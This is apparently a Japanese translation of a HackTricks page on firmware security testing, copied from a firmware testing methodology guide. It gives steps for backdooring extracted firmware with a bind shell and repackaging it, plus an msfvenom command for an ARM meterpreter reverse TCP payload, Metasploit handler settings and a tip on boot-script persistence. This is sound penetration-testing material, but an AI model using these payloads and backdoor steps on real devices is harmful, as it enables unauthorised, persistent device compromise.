 <details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

- **サイバーセキュリティ会社**で働いていますか？ **HackTricksで会社を宣伝**したいですか？または、**PEASSの最新バージョンを入手したり、HackTricksをPDFでダウンロード**したいですか？[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！

- 独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションである[**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見してください。

- [**公式のPEASS＆HackTricksのグッズ**](https://peass.creator-spring.com)を手に入れましょう。

- [**💬**](https://emojipedia.org/speech-balloon/) [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter**で[**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**をフォロー**してください。

- **ハッキングのトリックを共有するには、[hacktricksリポジトリ](https://github.com/carlospolop/hacktricks)と[hacktricks-cloudリポジトリ](https://github.com/carlospolop/hacktricks-cloud)**にPRを提出してください。

</details>


### このページは[https://scriptingxss.gitbook.io/firmware-security-testing-methodology/](https://scriptingxss.gitbook.io/firmware-security-testing-methodology/)からコピーされました。

**カスタムファームウェアやコンパイルされたバイナリをアップロード**して、整合性や署名の検証の欠陥を試みます。たとえば、次の手順を使用して、起動時に開始するバックドアバインドシェルをコンパイルします。

1. firmware-mod-kit（FMK）を使用してファームウェアを抽出します。
2. ターゲットのファームウェアアーキテクチャとエンディアンを特定します。
3. Buildrootを使用してクロスコンパイラをビルドするか、環境に合わせた他の方法を使用します。
4. クロスコンパイラを使用してバックドアをビルドします。
5. バックドアを抽出したファームウェアの/usr/binにコピーします。
6. 適切なQEMUバイナリを抽出したファームウェアのルートファイルシステムにコピーします。
7. chrootとQEMUを使用してバックドアをエミュレートします。
8. netcatを使用してバックドアに接続します。
9. 抽出したファームウェアのルートファイルシステムからQEMUバイナリを削除します。
10. FMKを使用して変更したファームウェアを再パッケージ化します。
11. ファームウェア解析ツールキット（FAT）を使用してバックドア付きのファームウェアをエミュレートし、netcatを使用してターゲットのバックドアIPとポートに接続してテストします。

既にダイナミック解析、ブートローダ操作、またはハードウェアセキュリティテスト手段からルートシェルを取得している場合は、インプラントやリバースシェルなどの事前にコンパイルされた悪意のあるバイナリを実行しようとします。コマンドアンドコントロール（C\&C）フレームワークに使用される自動ペイロード/インプラントツールの使用を検討してください。たとえば、Metasploitフレームワークと「msfvenom」を使用する場合は、次の手順を使用します。

1. ターゲットのファームウェアアーキテクチャとエンディアンを特定します。
2. `msfvenom`を使用して、適切なターゲットペイロード（-p）、攻撃者のホストIP（LHOST=）、リッスンポート番号（LPORT=）、ファイルタイプ（-f）、アーキテクチャ（--arch）、プラットフォーム（--platform linuxまたはwindows）、および出力ファイル（-o）を指定します。たとえば、`msfvenom -p linux/armle/meterpreter_reverse_tcp LHOST=192.168.1.245 LPORT=4445 -f elf -o meterpreter_reverse_tcp --arch armle --platform linux`
3. ペイロードを侵害されたデバイスに転送します（たとえば、ローカルウェブサーバーを実行し、ペイロードをファイルシステムにwget/curlします）およびペイロードに実行許可があることを確認します。
4. Metasploitを受信リクエストを処理するように準備します。たとえば、msfconsoleでMetasploitを起動し、次の設定を使用します（上記のペイロードに応じて）：use exploit/multi/handler、
* `set payload linux/armle/meterpreter_reverse_tcp`
* `set LHOST 192.168.1.245 #attacker host IP`
* `set LPORT 445 #can be any unused port`
* `set ExitOnSession false`
* `exploit -j -z`
5. 侵害されたデバイスでメータープリタリバース🐚を実行します。
6. メータープリターセッションが開かれるのを見守ります。
7. ポストエクスプロイト活動を実行します。

可能であれば、起動スクリプト内の脆弱性を特定して、デバイスが再起動しても持続的なアクセスを取得します。このような脆弱性は、起動スクリプトがSDカードやルートファイルシステム以外の信頼されていないマウントされた場所にあるコードを参照、[シンボリックリンク](https://www.chromium.org/chromium-os/chromiumos-design-docs/hardening-against-malicious-stateful-data)、または依存する場合に発生します。、ストレージデータ用のフラッシュボリュームなど。
